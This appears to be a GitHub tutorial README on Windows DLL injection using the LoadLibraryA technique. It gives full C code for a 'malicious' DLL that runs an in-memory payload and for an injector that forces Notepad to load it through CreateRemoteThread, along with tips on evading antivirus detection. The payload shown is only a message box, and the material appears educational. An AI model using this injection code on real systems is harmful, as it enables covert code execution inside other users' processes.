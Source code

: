 # DLL Injection (LoadLibrary Technique)

DLL injection is a technique used to inject a dynamic-link library (DLL) into the address space of a running process. This method allows the injected DLL to execute code within the context of the target process, granting it access to the process's memory, resources, and functionalities.

The module contains two main source files:
- `injectme.c`: This contains the source code for the malicious DLL
 
- `injector.c`: This contains the code for the program which injects our malicious DLL into the remote process.

## The DLL Source

First, we have our standard `DllMain` which contains the following code:

```c
BOOL WINAPI DllMain( HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved ) {
    switch ( fdwReason ) {
        case DLL_PROCESS_ATTACH:
            int result = injectme(); 
            break;
        default:
            break;
        }
    return TRUE;
}
```

The `DllMain` is simple: whenever the DLL is loaded into the process's memory (`DLL_PROCESS_ATTACH`) it calls the `injectme()` function which is responsible for running our Message Box payload. 

The `injectme()` function has the following code:
```c
extern __declspec(dllexport) int injectme(void) {
    void * pAddress;
    DWORD oldprotect = 0;
    pAddress = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
    RtlMoveMemory(pAddress, payload, payload_len);
    BOOL retval = VirtualProtect(pAddress, payload_len, PAGE_EXECUTE_READ, &oldprotect);
    HANDLE hThread = CreateThread(0, 0, (LPTHREAD_START_ROUTINE) pAddress, 0, 0, 0);
    int _result = WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    return 0;
}
```
The `injectme()` function is where the magic happens. We use the `extern __declspec(dllexport)` declaration to indicate that the DLL exports this function. 

> Since the DLL will be loaded in the process's address space itself, we can use `VirtualAlloc()` and `CreateThread()` instead of `VirtualAllocEx()` and `CreateRemoteThread()`. 

We begin with allocating memory for our payload with `VirtualAlloc()`, like we did with `VirtualAllocEx()` during **Shellcode Injection**. However, one noticable difference is that: the permission of the memory region has been set to `PAGE_READWRITE` because we need to write our payload to it. 

> In case of Shellcode Injection, the call to `WriteProcessMemory()` makes the region temporarily writeable for us and when the write operation is done, it restores the memory protection to its original state, but in this case, we gotta do this on our own and make sure the memory region is writeable. [See: [this Microsoft DevBlog](https://devblogs.microsoft.com/oldnewthing/20181206-00/?p=100415)]

Once the memory has been allocated, we use `RtlMoveMemory()` to copy the payload over to the allocated memory region, and then proceed to change the memory protection to `PAGE_EXECUTE_READ` using `VirtualProtect()`. 

> Note that we could have used `VirtualAlloc()` with `PAGE_EXECUTE_READWRITE` in the first place and skipped calling `VirtualProtect()` altogether. However, having `RWX` permission on a memory region sets off major red flags for AV engines.

Finally, we use `CreateThread()` and set the thread function to run our payload and wait till it finishes execution with `WaitForSingleObject()` just like in the **Shellcode Injection** example. Once the Thread finishes execution, we close the thread handle and return the back to the `DllMain` function. 

This concludes the DLL source.

## The Injector Source

Now comes the injector, which loads the malicious DLL into the target process's memory. The `main()` function looks familiar as such:

```
int main() {
	DWORD pid = find_pid(TARGET);
	printf("[i] %s: %d\n", TARGET, pid);
    int result = inject_dll_ll(pid);
    printf("[i] Injection Complete!\n");
    return 0;
}
```

We find the Process ID for the target process using `find_pid()` and pass it to the `inject_dll_ll()` function where the injection takes place. The `inject_dll_dll()` function looks like this:

```c
int inject_dll_ll(DWORD pid) {
	HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    HANDLE hModule = GetModuleHandle("Kernel32.dll");
    PTHREAD_START_ROUTINE pLoadLibrary = (PTHREAD_START_ROUTINE) GetProcAddress(hModule, "LoadLibraryA");
    CloseHandle(hModule);
    PVOID pAddr = VirtualAllocEx(hProcess, NULL, sizeof(DLL_PATH), MEM_COMMIT, PAGE_READWRITE);
    BOOL result = WriteProcessMemory(hProcess, pAddr, (LPVOID)DLL_PATH, sizeof(DLL_PATH),  NULL);
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pLoadLibrary, pAddr, 0, NULL);
    int _result =  WaitForSingleObject(hThread, -1);
    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```
> Here, the `DLL_PATH` macro expands to the full path of the malicious DLL on the system

For injecting our DLL into the target process, we would use the `LoadLibraryA()` function from `kernel32.dll` to load our DLL into the target process's virtual memory. This method, however has certain drawbacks:
- It registers the DLL with the process so it might set off some flags to alert defenders
- If a DLL has already been loaded once with `LoadLibraryA()`, it would not trigger execution on subsequent attempts. 

With that in mind, lets walk through the code. First, we open a open a handle to the target process(`hProcess`). Then, we dynamically resolve the address of `LoadLibraryA` function from `kernel32.dll` as such:

- First, we use `GetModuleHandle()` to retrieve a module handle for the `kernel32.dll`, because thats where `LoadLibraryA()` function is defined.
- Then, we use this handle to the module(`hModule`) along with `GetProcAddress()` to fetch the address of the `LoadLibraryA()` function.
- Once we have the address to `LoadLibraryA()`, we can go ahead and free the module handle(`hModule`)

Next up, we need to allocate memory with `VirtualAllocEx()` in the remote process's virtual address space to store the full location of the DLL(`DLL_PATH`). This time around, we need to set the permission for the memory region as `PAGE_READWRITE` because we need to write our Dll's path (`DLL_PATH`) to it but there is no execution happening in the memory region.

Once the memory has been allocated, we use `WriteProcessMemory()` to copy the full DLL path into the process's memory. Finally, we call `CreateRemoteThread()`, but this time, we pass the previously acquired address of `LoadLibraryA()`(`pLoadLibrary`) as the thread function and pass the address of memory location in the remote process where the full path to the DLL is stored(`pAddr`) as the variable to the thread function, and start the remote thread. 

This essentially forces the remote process to execute the following instruction:

```c
LoadLibraryA("C:\\Path\\To\\injectme.dll")
```

As soon as the instruction is executed and the DLL is attached to the process, the payload is executed. We skip the wait stage for the thread by setting the timeout interval to `0` in `WaitForSingleObject()` and return as soon as exectuion finishes.

When compiled and run, we should have our `Hello World!` message box popup from the target process.

![](./imgs/dll_ll_0.png)

If we examine the target process(`Notepad.exe`) with a tool like `Process Hacker`, we should see our malicious DLL in the list of modules loaded by the process.

![](./imgs/dll_ll_1.png)

